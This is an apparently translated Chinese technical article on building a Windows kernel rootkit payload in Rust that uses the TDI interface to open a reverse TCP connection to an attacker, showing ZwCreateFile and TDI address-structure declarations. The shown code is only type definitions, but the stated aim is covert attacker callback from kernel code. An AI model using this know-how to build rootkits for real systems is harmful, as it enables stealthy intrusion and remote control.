 TDI是与所有类型的网络传输进行通信的传统方式。使用这种方式，可以建立与攻击者的反向TCP连接。其他Payload（例如绑定套接字、UDP）将遵循类似的方法。

在Rootkit中，TDI的使用并不普遍，但在一些书中已经进行了详细的说明，这些书可以作为参考：

Vieler, R. (2007). Professional Rootkits. Indianapolis, IN: Wiley Technology Pub.<br>
Hoglund, G., &amp; Butler, J. (2009). Rootkits: Subverting the Windows Kernel. Upper Saddle River, NJ: Addison-Wesley.

### <a class="reference-link" name="1.1%20%E6%89%93%E5%BC%80TCP%E8%AE%BE%E5%A4%87%E5%AF%B9%E8%B1%A1"></a>1.1 打开TCP设备对象

根据设备名称（在示例中为\Device\Tcp）可以找到TDI设备对象。本质上，我们将ZwCreateFile()内核API与设备名称一起使用，并通过文件扩展属性来传递选项。

```
pub type ZwCreateFile = extern "stdcall" fn(
        FileHandle:         PHANDLE,
        AccessMask:         ACCESS_MASK,
        ObjectAttributes:   POBJECT_ATTRIBUTES,
        IoStatusBlock:      PIO_STATUS_BLOCK,
        AllocationSize:     PLARGE_INTEGER,
        FileAttributes:     ULONG,
        ShareAccess:        ULONG,
        CreateDisposition:  ULONG,
        CreateOptions:      ULONG,
        EaBuffer:           PVOID,
        EaLength:           ULONG,
    ) -&gt; NTSTATUS;
```

设备名称在`ObjectAttributes`字段中传递，而配置则在`EaBuffer`中传递。我们必须创建一个传输句柄（FEA: TransportAddress）和一个连接句柄（FEA: ConnectionContext）。

TransportAddress FEA采用`TRANSPORT_ADDRESS`结构，对于IPv4而言，该结构中还包含一些其他结构。这时，我们可以选择要绑定到的接口或者要使用的接口。在这里，我们选择0.0.0.0的0端口，内核将使用随机临时端口绑定到主端口。

```
#[repr(C, packed)]
    pub struct TDI_ADDRESS_IP `{`
        pub sin_port:   USHORT,
        pub in_addr:    ULONG,
        pub sin_zero:   [UCHAR; 8],
    `}`

    #[repr(C, packed)]
    pub struct TA_ADDRESS `{`
        pub AddressLength:  USHORT,
        pub AddressType:    USHORT,
        pub Address:        TDI_ADDRESS_IP,
    `}`

    #[repr(C, packed)]
    pub struct TRANSPORT_ADDRESS `{`
        pub TAAddressCount:     LONG,
        pub Address:            [TA_ADDRESS; 1],
    `}`
```
